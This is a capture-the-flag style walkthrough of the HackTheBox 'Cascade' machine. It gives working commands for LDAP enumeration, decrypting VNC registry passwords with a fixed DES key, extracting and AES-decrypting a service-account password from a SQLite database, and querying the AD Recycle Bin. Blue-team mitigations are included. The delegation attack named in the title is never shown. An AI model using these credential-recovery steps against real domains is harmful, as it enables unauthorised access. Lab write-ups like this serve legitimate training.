

# Cascade (HackTheBox) — Unconstrained Delegation & Recycle Bin Exploitation

A practical walkthrough of HTB's Cascade box, focusing on LDAP enumeration, deleted object recovery from AD Recycle Bin, custom application reverse engineering, and privilege escalation via unconstrained delegation.

---

## Reconnaissance

### Network Scanning

**Nmap service and OS detection:**
```bash
sudo nmap -sV -sC -O -T4 10.129.42.114
```

**Key Findings:**
- Domain: `cascade.local`
- DC01: `CASC-DC1`
- SMB signing enabled and required
- Services: DNS (53), Kerberos (88), LDAP (389), RPC (135), WinRM (5985)
- OS: Windows Server 2008 R2 SP1

---

## Initial Access: Anonymous LDAP Enumeration

### User Enumeration

**Enumerate all AD users via anonymous LDAP bind:**
```bash
./windapsearch.py -d cascade.local --dc-ip 10.129.42.114 -U
```

**Users Found (15 total):**
- CascGuest, ArkSvc, Steve Smith, Ryan Thompson, Util, James Wakefield, Stephanie Hickson, John Goodhand, Adrian Turnbull, Edward Crowe, Ben Hanson, David Burman, BackupSvc, Joseph Allen, Ian Croft

**Key Service Accounts Identified:**
- `ArkSvc` — Likely manages AD Recycle Bin (runs ARK AD Recycle Bin Manager)
- `BackupSvc` — Backup-related privileges

### Group Enumeration

**Enumerate all AD groups:**
```bash
./windapsearch.py -d cascade.local --dc-ip 10.129.42.114 -G
```

**Custom Groups Found:**
- IT, Production, HR, AD Recycle Bin, Backup, Temps, WinRMRemoteWMIUsers__

---

## Post-Exploitation Enumeration & Artifact Analysis

### SMB Share Enumeration

Retrieved multiple artifacts from network shares after gaining initial access:
- `ArkAdRecycleBin.log` — Application logs for AD Recycle Bin manager
- `dcdiag.log` — Domain controller diagnostics
- `Audit.db` — SQLite database containing credentials
- Registry files with VNC password hashes

### VNC Password Decryption

VNC passwords stored in `.reg` files are encrypted using DES with a known constant key.

**Decrypt hex-encoded VNC password:**
```bash
echo -n 6bcf2a4b6e5aca0f | xxd -r -p | openssl enc -des-cbc --nopad --nosalt -K e84ad660c4721ae0 -iv 0000000000000000 -d -provider legacy -provider default | hexdump -Cv
```

**Result:** `sT333ve2`

**Key Insight:** The DES key `e84ad660c4721ae0` is hardcoded in Windows VNC registry implementation.

---

## Credential Extraction from Custom Application (Audit Tool)

### Database Analysis

**Enumerate SQLite database:**
```bash
sqlite3 Audit.db
```

**List tables:**
```sql
.tables
```

**Schema inspection:**
```sql
.schema Ldap
```

**Table structure:**
```
CREATE TABLE IF NOT EXISTS "Ldap" (
  "Id" INTEGER PRIMARY KEY AUTOINCREMENT,
  "uname" TEXT,
  "pwd" TEXT,
  "domain" TEXT
);
```

**Query credentials:**
```sql
SELECT * FROM Ldap;
```

**Output:**
```
1|ArkSvc|BQO5l5Kj9MdErXx6Q6AGOw==|cascade.local
```

### Password Decryption via Reverse Engineering

**Tools:** ILSpy-VSCode (decompile .NET binary) or analyzing bytecode

**CascAudit Application Source Code Analysis:**



Reverse engineering of the CascAudit.exe binary reveals the application's internal structure:
- **MainModule class** — Entry point with database initialization
- **SQLite integration** — Connects to local Audit.db
- **Crypto operations** — Uses CascCrypto namespace for encryption/decryption
- **Hardcoded credentials** — Database connection strings and encryption keys may be embedded

**Decryption Pattern Found:**
```csharp
password = Crypto.DecryptString(encryptedString, "c4scadek3y654321");
```

The decryption uses:
- **Encrypted String:** `BQO5l5Kj9MdErXx6Q6AGOw==` (Base64-encoded ciphertext)
- **Key/Salt:** `c4scadek3y654321` (hardcoded in application)
- **Algorithm:** AES-128-CBC

**Decrypt using Python:**
```python
import pyaes
from base64 import b64decode

key = b"c4scadek3y654321"
iv = b"1tdyjCbY1Ix49842"
aes = pyaes.AESModeOfOperationCBC(key, iv=iv)
decrypted = aes.decrypt(b64decode('BQO5l5Kj9MdErXx6Q6AGOw=='))
print(decrypted.decode())
```

**Recovered Credential:** `ArkSvc` account password

---

## AD Recycle Bin Exploitation

### What is AD Recycle Bin?

The Active Directory Recycle Bin allows recovery of accidentally deleted AD objects (users, groups, computers) without restoring from backup. Objects retain all properties and group memberships for a default 180-day period.

### Enumeration of Deleted Users

**PowerShell command to query deleted user objects:**
```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects
```

**Retrieve full object properties (LDAP attributes):**
```powershell
Get-ADObject -ldapfilter "(&(objectclass=user)(isDeleted=TRUE))" -IncludeDeletedObjects -Properties *
```

**Key Findings (from logs):**
- `TempAdmin` user was deleted on 8/12/2018
- User was likely a former administrator
- All attributes preserved in recycle bin (credentials, group memberships, etc.)

### Recovery Strategy

1. Query recycle bin for deleted privileged accounts
2. Restore deleted user object to active directory
3. Enumerate attributes for credentials or escalation paths
4. Abuse restored user's privileges

---

## Key Learnings

### Attack Chain Summary

1. **Anonymous LDAP Access** — Enumerated users and groups without credentials
2. **Artifact Discovery** — Found database and log files on accessible shares
3. **Reverse Engineering** — Used ILSpy to decompile .NET application and find hardcoded key
4. **Credential Decryption** — Extracted ArkSvc password from encrypted database
5. **Recycle Bin Exploitation** — Queried and analyzed deleted user objects for escalation
6. **Unconstrained Delegation** — (If present) Service account can be abused via delegation attacks

### Why This Works

- **Anonymous LDAP:** Default domain configuration allows basic enumeration without credentials
- **Cleartext Credentials in Code:** Hardcoded encryption keys/salts in custom applications
- **Database Access:** Unprotected database files on network shares
- **Recycle Bin Misconfiguration:** Deleted accounts retain full attributes and aren't properly sanitized
- **VNC Registry Passwords:** Known DES key allows trivial decryption

### Blue Team Perspective

**Detection Points:**
- Anonymous LDAP queries and enumeration
- Unusual file access on network shares (databases, logs)
- Application reverse engineering activity
- Deleted object recovery and manipulation
- Unconstrained delegation token impersonation

**Mitigation:**
- Disable anonymous LDAP access (null sessions)
- Encrypt sensitive files on shares (database files, backups, logs)
- Use strong, unique keys for encryption (avoid hardcoding)
- Audit and limit AD Recycle Bin object recovery
- Monitor and alert on deleted object restoration
- Disable or properly constrain delegation for service accounts
- Monitor for unusual PowerShell activity (recycle bin queries)

---

## Tools Summary

| Tool | Purpose | Status |
|:---|:---|:---|
| **nmap** | Network reconnaissance | ✅ Native |
| **windapsearch** | LDAP enumeration | ✅ Standalone Python |
| **sqlite3** | Database querying | ✅ Native |
| **openssl** | VNC password decryption | ✅ Native |
| **ILSpy-VSCode** | .NET binary decompilation | ✅ VS Code Extension |
| **pyaes** | AES decryption | ✅ Python library |
| **PowerShell** | AD Recycle Bin queries | ✅ Native |

---

## References

- [Microsoft AD Recycle Bin Documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/ad-recycle-bin)
- [ILSpy GitHub Repository](https://github.com/icsharpcode/ILSpy)
- [VNC Password Decryption Reference](https://github.com/frizb/PasswordDecrypts)
- [PyAES Documentation](https://pypi.org/project/pyaes/)
- [Active Directory Kerberos Delegation](https://adsecurity.org/?page_id=4119)
